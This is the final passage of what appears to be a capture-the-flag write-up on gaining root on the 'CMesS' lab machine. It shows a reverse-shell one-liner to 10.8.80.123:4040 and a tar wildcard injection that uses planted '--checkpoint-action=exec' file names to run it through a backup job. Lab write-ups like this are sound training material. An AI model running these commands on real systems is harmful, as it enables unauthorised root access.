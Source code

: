 - so now we can run the `/tmp/bash -p` command and get a shell as root

![](assets/CMesS_assets/Pasted%20image%2020230521152537.png)

- we finally get our root.txt file

![](assets/CMesS_assets/Pasted%20image%2020230521153520.png)

OR
- Another way we can do this by getting a reverse shell as root on a listening port, so we can run the following commands in the backup directory, because it is being backed up using the tar command

```shell
andre@cmess:~/backup$ echo "bash -i >& /dev/tcp/10.8.80.123/4040 0>&1" > test.sh
andre@cmess:~/backup$ cat runme.sh 
bash -i >& /dev/tcp/10.8.80.123/4040 0>&1
andre@cmess:~/backup$ chmod +x test.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=bash test.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
```
- and on our listening port we can see we have access as root

![](assets/CMesS_assets/Pasted%20image%2020230521155102.png)

- and we get our root file

![](assets/CMesS_assets/Pasted%20image%2020230521155147.png)


Thank you reading, hope you enjoyed it
See you next time!!
